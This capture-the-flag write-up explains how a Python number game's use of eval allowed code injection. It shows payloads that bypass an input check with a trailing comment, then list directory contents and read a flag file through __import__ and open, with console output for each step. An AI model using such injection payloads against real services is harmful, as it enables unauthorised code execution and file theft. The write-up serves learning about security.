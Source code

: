`twenty-four` was a telnet challenge. The source code of this challenge is [here](twenty-four.py) for whoever is interested, but you don't need it to solve the challenge. Paying close attention to the errors should suffice. If you connected, you would be greeted with the following message (the task would be different):

```
In this game, you need to combine four numbers using standard mathematical operators ("+", "-", "*", "/", "**") to get 24 as a result.

Example question: [1 1 5 5]
Example solution: -1 + 1 * 5 * 5
Task: [1, 2, 4, 11]
```

Your first instinct would probably be to solve it, but since the challenge type was *exploit*, this was of course not what you were supposed to do. For those who did write a solver: congratulations, you could play an infinitely long game against the computer, since the game was running in a `while True:` loop ;-)

So, what would happen if we'd insert invalid solutions? Let's try:

```
Enter solution: 1+2+4+11
Wrong :( Try again.
Task: [1, 2, 4, 11]
Enter solution: foo
You didn't use all numbers!
Task: [1, 2, 4, 11]
Enter solution: 1 + 2 + 4 + 11 + foo
Traceback (most recent call last):
  File "twenty-four.py", line 43, in <module>
    elif eval(sol) == 24:
  File "<string>", line 1, in <module>
NameError: name 'foo' is not defined
```

This is interesting! We got a `NameError` in Python, which means that "[a local or global name is not found](https://docs.python.org/3/library/exceptions.html#NameError)". It appears that `foo` is interpreted as a Python variable!

If we look at the nice stack trace we also got, we could see why this happens: the game checks if your solution is correct by evaluating it with `eval`! For those who don't know `eval`: it is a red flag indicating remote code execution. [Check the documentation](https://docs.python.org/3.6/library/functions.html#eval) for more information.

So now that we know we can insert code, wat can we do with it? Let's start again and try to find out what's in our current working directory:

```
Task: [2, 11, 11, 11]
Enter solution: os.listdir()
You didn't use all numbers!
Task: [2, 11, 11, 11]
Enter solution: os.listdir() # 2 11 
Traceback (most recent call last):
  File "twenty-four.py", line 43, in <module>
    elif eval(sol) == 24:
  File "<string>", line 1, in <module>
NameError: name 'os' is not defined
```

We couldn't just call `os.listdir()`, because the game checks that you've used all your numbers. Luckily, this is really easy to bypass, by adding a comment with the necessary numbers at the end. We didn't even need to list the 11 three times, so the checking must be really sloppy! Can we import `os`?

```
Task: [9, 10, 11, 13]
Enter solution: import os; os.listdir() # 9 10 11 13
Traceback (most recent call last):
  File "twenty-four.py", line 43, in <module>
    elif eval(sol) == 24:
  File "<string>", line 1
    import os; os.listdir() # 9 10 11 13
         ^
SyntaxError: invalid syntax
```

That's strange. [This helpful StackOverflow answer](https://stackoverflow.com/a/17136796) tells us that `eval` only works for expressions, but `import` is a statement. That's a pity! Now what? The same StackOverflow answer also tells us:

> In Python 2.6 and earlier use `__import__`

It turns out that this method still works in Python 3 (which is used for this challenge), so we can write the following:

```
Task: [4, 9, 10, 12]
Enter solution: __import__('os').listdir() # 4 9 10 12
Wrong :( Try again.
Task: [4, 9, 10, 12]
Enter solution: print(__import__('os').listdir()) # 4 9 10 12
['flag', 'solvable-combinations.txt', 'twenty-four.py']
Wrong :( Try again.
```

Of course, `listdir()` only returns a string (it is an expression after all), so we must print it. This worked! We can now see all files in the current directory! And guess what: there's a file called `flag`. Nice! Can we get the contents?

```
Task: [4, 5, 7, 10]
Enter solution: print(open('flag', 'r').readlines()) # 4 5 7 10   
['FLG{29ZWhpVeETuswAM7QaJpnqqmFdcLMPLTYMTe93eDvTWN}\n']
Wrong :( Try again.
```

Turns out the file only contains one line, and it is the flag. Mission accomplished!
